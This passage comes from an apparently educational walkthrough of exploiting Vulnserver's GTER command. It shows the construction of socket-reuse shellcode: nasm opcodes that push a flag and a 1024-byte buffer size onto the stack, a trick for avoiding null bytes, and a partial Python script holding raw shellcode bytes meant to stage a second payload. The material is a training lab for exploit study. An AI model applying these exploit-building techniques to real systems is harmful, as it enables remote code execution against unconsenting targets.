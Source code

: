 ```c
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 flag-value.py     
```

After running this, we are able to set ```EAX``` as 0 and push it to the stack

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-flag-1.png">
</div>

Our first argument got pushed into stack

## Crafting buffer size argument

Now, we have pushed our ```flag``` argument into stack

Next to it, we have to push the ```buffer size``` for the socket

At starting we saw that tha buffer size being used by the socket was ```4096 bytes```

But we will use ```1024 bytes``` which is adequate for our final ```stage2 shellcode```

Hex value of ```1024 bytes``` is,

```c
>>> hex(1024)
'0x400'
```

Previously we have XORed ```EAX``` so its value will be 0

Crafting opcodes for pushing buffer size into stack,

```c
nasm > add eax,0x400
00000000  0500040000        add eax,0x400
// to avoid null bytes, adding on higher accumulator AX=AH+AL=0x4+0x00=0x400
nasm > add ah,0x4
00000000  80C404            add ah,0x4
nasm > push eax
00000000  50                push eax
```

Adding it to our python script,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat buffer-size.py    
import socket, sys

file_descriptor=b""
file_descriptor+=b"\xcc"
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

stack_adjustment=b""
stack_adjustment+=b"\x83\xec\x70"

flag_value=b""
flag_value+=b"\x31\xc0"
flag_value+=b"\x50"

buffer_size=b""
buffer_size+=b"\x80\xc4\x04"
buffer_size+=b"\x50"
```